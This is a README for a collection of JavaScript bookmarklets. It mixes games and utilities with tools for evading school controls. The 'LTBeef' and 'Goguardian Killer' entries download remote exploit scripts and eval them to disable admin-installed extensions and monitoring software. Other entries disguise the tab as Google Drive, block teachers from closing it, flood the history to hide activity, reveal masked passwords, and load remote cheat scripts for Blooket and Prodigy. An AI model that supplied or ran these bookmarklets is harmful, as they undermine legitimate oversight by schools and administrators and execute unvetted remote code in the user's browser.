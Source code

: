 # Bookmarklet Collection
### I do not condone any illegal/immoral use of these bookmarklets, these are listed strictly for educational purposes!


> ## Calculator
#### Calculator is a popup box that can solve any simple math equation on any page you choose!
`javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()`



> ## History Flooder
#### Have something to hide? Use this bookmarklet to spam your history with your input of websites!
`javascript:var num=prompt("History flood amount: "); done = false; x = window.location.href; for (var i=1; i<=num; i++) {history.pushState(0, 0, i==num?x:i.toString()); if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}`



> ## X-Ray Googles
#### This lets you edit the raw HTMl of a page (Client-Sided)
`javascript:(function () {var script=document.createElement('script');script.src='https://x-ray-goggles.mouse.org/webxray.js';script.className='webxray';script.setAttribute('data-lang','en-US');script.setAttribute('data-baseuri','https://x-ray-goggles.mouse.org');document.body.appendChild(script);}())`



> ## Portable Minecraft
#### Play a mock minecraft on any webpage! Recovered by luphoria.
`javascript:(function(){window.mcbmRootURI='https://luphoria.com/MCanywhere/';window.mcbmScriptURI='mcbm.min.js';window.mcbmLang='eng';var s,ss=window.mcbmRootURI+'js/mcbm-load.min.js';s=document.createElement('script');s.src=ss;document.body.appendChild(s);})();`



> ## Portable Snake Game
#### Game window appears on your page that you can play snake on.

`javascript:Q=32;m=b=Q*Q;a=[P=l=u=d=p=S=w=0];u=8;f=(h=j=t=(b+Q)/2)-1;(B=(D=document).body).appendChild(x=D.createElement("p"));(X=x.style).position="fixed";X.left=X.top=0;X.background="#FFF%22;x.innerHTML=%22%3Cp%3E%3C/p%3E%3Ccanvas%3E%22;v=(s=x.childNodes)[0];(s=s[1]).width=s.height=5*Q;c=s.getContext(%222d%22);%20onkeydown=onblur=F=function(e,g){g?a[f]?(w+=m,f=Math.random(l+=8)*(R=Q-2)*R|(u=0),F(f+=Q+1+2*(f/R|0),g)):F(f):0%3Ee?(l?--l:(y=t,t=a[t]-2,F(y)),S+=(w*=0.8)/4,m=999/(u++%20+10),a[h+=[-1,-Q,1,Q][d=p]]?B.removeChild(x,alert(%22Game%20Over!\nThe%20game%20window%20will%20now%20be%20closed.\n\nMade%20by%203kh0%22)):(F(h),F(e,j=h),v.innerHTML=P?(setTimeout(F,50,e,0),S|0):%22Press%20P%20to%20play!%20Made%20by%203kh0%22)):-e?(y=(a[e]=e%3CQ|e%3E=Q*Q-Q|!(e%Q)|e%Q==Q-1|2*(e==h))+(e==f),e==h&&(a[j]=2+h),c.fillStyle=%22hsl(%22+99*!a[e]+%22,%22+2*m+%22%,%22+50*y+%22%)%22,c.fillRect(e%Q*5,5*(e/Q|0),5,5)):isNaN(y=e.keyCode-37)|43==y?(P=y&&!P)&&F(-1):%20p=!P|y&-4|!(y^2^d)?p:y;return!1};for(;--b;F(b));void%20F(-1);`



> ## Enter The Matrix
#### Do you choose the red or the blue pill?

`javascript:(function(){var%20wn=window,w,h,o={},m,dc,b,c='ABCDEFGHIJKLM1234567890nopqrstuvwxyz',y=setInterval,z=clearInterval,t=1;function%20x(){dc=document;b=dc.body;b.innerHTML='';bs=b.style;w=wn.innerWidth;h=wn.innerHeight;bs.backgroundColor='black';bs.overflow='hidden';m=y(n,25);dc.addEventListener('keydown',function(e){if(e.keyCode==83){if(t)z(m);else%20m=y(n,25);t=!t}},0)}function%20g(i){return%20dc.getElementById(i)}function%20r(d,m){return%20Math.floor(Math.random()*d)+m}function%20a(i){var%20d=g(i),ds=d.style,t=parseInt(ds.top),k=o[i];if(t<h){ds.top=(t+10)+'px'}else{z(k);b.removeChild(d);delete%20k}}function%20n(){var%20d=dc.createElement('div'),dt=new%20Date(),i='m_'+dt.getTime(),ds=d.style,v=ds.visibility,j=0,u=[],l=r(21,4),q=c.length,p;d.id=i;ds.width='5px';ds.opacity=r(.3,.7);ds.fontSize=r(8,8)+'px';ds.lineHeight='8px';ds.color='green';ds.position='absolute';ds.left=r(w,0)+'px';v='hidden';while(j<l){p=r(q,0);u[j]=c.substring(p,p+1);j++}d.innerHTML=u.join("\n");b.appendChild(d);ds.top=-d.offsetHeight+'px';v='visible';o[i]=y(function(){a(i)},r(20,40))}x();})()`



> ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch('https://compactcow.com/ltbeef/exploit.js').then(data=>{data.text().then(text=>{eval(text)})});`



> ## Google Drive Tab Disguise
#### Changes icon and title of tab to Google Drives

`javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://ssl.gstatic.com/docs/doclist/images/infinite_arrow_favicon_5.ico';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);`



> ## Secure Page
#### This bookmarklet makes your tab need extra confirmation to close (teachers cant force close)

`javascript:window.onbeforeunload = function() { return "Do you want to close"; }; alert("Tab Secured");`



> ## Show Password
#### Makes "********" Passwords show after clicking bookmarklet

`javascript:(function(){ var IN,F;IN=document.getElementsByTagName('input'); for(var i=0;i<IN.length;i++){F=IN[i]; if(F.type.toLowerCase()=='password'){ try{F.type='text'}catch(r){ var n,Fa;n=document.createElement('input'); Fa=F.attributes;for(var ii=0;ii<Fa.length;ii++){ var k,knn,knv;k=Fa[ii];knn=k.nodeName;knv=k.nodeValue; if(knn.toLowerCase()!='type'){ if(knn!='height'&&knn!='width'&!!knv)n[knn]=knv}}; F.parentNode.replaceChild(n,F)}}}})()`



> ## Blooket Multitool
#### This is a semi-functional blooket multitool

`Way too big to put here but its at (https://zeltux.dev/dump/blooket.js)`



> ## The Holy Fucking Grail (NOT MINE)
#### This is one of the only bookmarklets you will ever need (absolutely fucking crazy)

`javascript:(function () %7Bvar v %3D document.createElement(%27script%27)%3Bv.src %3D %27https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FBrowncha023%2FVengeance%40v1.2.0%2Fscript.min.js%27%3Bdocument.body.appendChild(v)%3B%7D())`



> ## Prodigy Multitool
#### This is a prodigy cheat multitool

`Way too big to put here but its at (https://zeltux.dev/dump/prodigy.js)`

> ## Online Notepad
#### Just opens a new tab that allows you to type whatever you desire

`javascript:(function()%7Bjavascript%3Avoid%20(()%20%3D%3E%20%7Blet%20textEditorPopup%20%3D%20window.open(%22%22%2C%20%22Text%20Editor%22%2C%20%22width%3D1000%2Cheight%3D500%22)%3B%20textEditorPopup.document.body.contentEditable%20%3D%20true%3B%20textEditorPopup.document.body.style.fontFamily%20%3D%20%22monospace%22%3B%20textEditorPopup.document.body.style.fontSize%20%3D%20%2220px%22%3B%20textEditorPopup.document.body.spellcheck%20%3D%20false%3B%20textEditorPopup.document.title%20%3D%20%22Text%20Editor%22%3B%7D)()%3B%7D)()%3B`

> ## Goguardian Killer
#### Kills GoGuardian (Duhh) (NOT MINE)

`javascript:fetch(`https://raw.githubusercontent.com/H4lyc0n/Goguardian-killer/main/Exploit_Not_The_Bookmarklet.js`).then(data=>{data.text().then(text=>{eval(text)})});`
